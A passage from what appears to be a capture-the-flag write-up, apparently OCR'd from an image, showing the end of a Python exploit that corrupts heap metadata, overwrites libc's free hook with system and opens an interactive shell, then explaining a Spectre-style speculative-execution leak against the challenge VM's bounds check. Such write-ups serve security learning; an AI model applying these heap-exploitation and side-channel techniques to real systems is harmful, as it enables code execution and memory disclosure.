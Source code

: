 ```python
  realloc_hook = 0x3ebc28 + libc
  malloc_hook = 0x3ebc30 + libc

  sp_add(0x200,(-((heap+0x1500)*2))&0xffffffffffffffff)
  sp_add(0x201,0)
  sp_add(0x202,free_hook-0x18)
  sp_isolate2(free_hook-0x18,0,0x202)
  magic = libc + 0x4f322
  magic = libc + 0x10a38c
  system = libc + 0x00000000004f440

  sp_select(-941)
  sp_isolate2(system,0,-941)

  sp_add(0x6873,0x6873)
  sp_add(0x6873,0x6873)
  r.recvline()
  r.sendline("ls")

  r.interactive()


```
### Spectre
According to [spectre-attack-exploit](https://github.com/Eugnis/spectre-attack), we know there must be a buffer[256 * 512] for testing access time. First, assign buffer[i * 512] for each i to prevent copy on write zero page problem, and flush out it from cache line. 

However, we do not have 
```clflush
``` can be used, but there are 32MB space we can use.
Usually, L3 Cache size is 8MB, so we can flush out the buffer from by accessing the other space which is far away from buffer.

Second, here is 
```builtin_bc
```.

```c
signed __int64 __fastcall builtin_bc(unsigned __int64 a1)
{
  signed __int64 result; 

  result = -1LL;
  if ( *(_QWORD *)the_vm > a1 )
    result = *(unsigned __int8 *)(the_vm + a1 + 8);
  return result;
}

```
We can use it for training speculative execution, pass argument with 
```0 0 0 0x1018
``` sequentially. CPU do speculative execution and leak the value of 
```the_vm+0x1018+8
``` by following flow.


```c
a = builtin_bc(0x1018)
buffer[a*512] = 1

```
